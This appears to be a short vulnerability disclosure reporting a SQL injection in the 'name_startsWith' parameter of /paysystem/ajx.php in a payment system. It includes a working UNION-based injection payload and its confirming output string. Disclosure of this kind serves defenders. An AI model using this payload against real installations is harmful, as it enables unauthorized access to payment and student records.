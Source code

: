 BUG_Author：zhangyf

Vulnerability File: /paysystem/ajx.php

GET parameter 'name_startsWith' exists SQL injection vulnerability

Payload: type=studentname&name_startsWith=b') union all select concat(0x66676869,0x515253),null-- -

The union query is successful, and the string "fghiQRS" appears as expected, which proves that there is a SQL injection vulnerability

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/3.png)

